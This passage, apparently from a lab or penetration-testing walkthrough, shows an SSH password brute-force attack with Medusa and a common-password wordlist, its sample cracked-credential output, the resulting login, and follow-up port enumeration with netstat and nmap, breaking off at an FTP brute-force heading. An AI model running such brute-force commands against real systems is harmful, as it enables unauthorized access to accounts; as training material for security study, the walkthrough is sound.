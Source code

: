 ### **Executing a Brute-Force Attack**  
```bash
medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```
### **Command Breakdown**  
| Parameter | Description |
|-----------|-------------|
| `-h <IP>` | Target system's IP address |
| `-n <PORT>` | SSH service port (default: 22) |
| `-u sshuser` | Username for authentication |
| `-P 2023-200_most_used_passwords.txt` | Password wordlist |
| `-M ssh` | Specifies SSH module in Medusa |
| `-t 3` | Number of parallel login attempts |

### **Output (Successful Attack)**  
```bash
ACCOUNT FOUND: [ssh] Host: <IP> User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```
### **Establishing SSH Access**  
```bash
ssh sshuser@<IP> -p <PORT>
```

## **3. Expanding the Attack - Identifying Additional Services**  

### **Scanning Open Ports using `netstat`**  
```bash
netstat -tulpn | grep LISTEN
```
**Findings:**  
- Port **22** → SSH  
- Port **21** → FTP  

### **Confirming with `nmap` Scan**  
```bash
nmap localhost
```
**Output:**  
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```


## **4. Brute-Forcing FTP Authentication using Medusa**  
